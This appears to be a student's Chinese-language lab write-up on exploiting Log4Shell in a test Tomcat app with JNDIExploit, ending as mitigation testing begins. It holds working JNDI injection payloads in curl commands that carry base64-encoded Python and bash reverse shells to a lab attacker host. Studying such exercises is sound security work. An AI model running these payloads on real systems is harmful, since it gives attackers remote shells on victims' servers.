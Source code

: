 ### 在以上两步中经历的curl修改

#### 1. 尝试移除“=”填充符

```bash
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'
encoded_payload=$(echo -n "$payload" | base64 -w 0 | tr -d '=' | sed 's/+/%252B/g; s/\//%252F/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
```
JNDIExploit 反复报错 Incorrect params。
__问题分析__
Base64 编码嵌套问题：Payload 是 bash -c {echo,...}|{base64,-d}|{bash,-i} 的 Base64 编码，但 JNDIExploit 似乎无法处理这种嵌套结构。日志显示工具接收到了 LDAP 查询，但在解析 TomcatBypass/Command/Base64/... 时失败。
特殊字符干扰：Base64 字符串中的 =（填充符）和 |、{、} 等符号可能被错误解析。

#### 2.简化命令格式，避免使用 bash -c {echo,...}|... 这种复杂结构，改用直接命令

```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
JNDIExploit 接收到了正确的 Base64 编码命令（YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ== 解码后为 bash -i >& /dev/tcp/192.168.8.132/7777 0>&1），但仍然报错 Incorrect params。
__问题分析__
JNDIExploit 工具本身对参数的处理上可能有一定问题。

#### 3.调整 Base64 编码方式，移除“=”填充符并简化特殊符号处理

```bash
cmd='bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=')
curl -G "http://192.168.8.129:58468/hello" \ --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
报错及问题与第一次的问题类似，不多赘述。

#### 4.调整 Base64 编码格式。JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，尝试移除填充符“=”并简化编码。得到完成的代码。

### ~~作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜~~
我们胜利了...暂时的

### 漏洞缓解与绕过测试

现在使用直接修改容器中文件的办法来尝试进行缓解

首先为了工作目录不影响其他文件，创建临时文件夹work<br>
![](./pic/创建临时工作文件夹.png)<br>
然后把原来的demo.jar直接解包到当前文件下<br>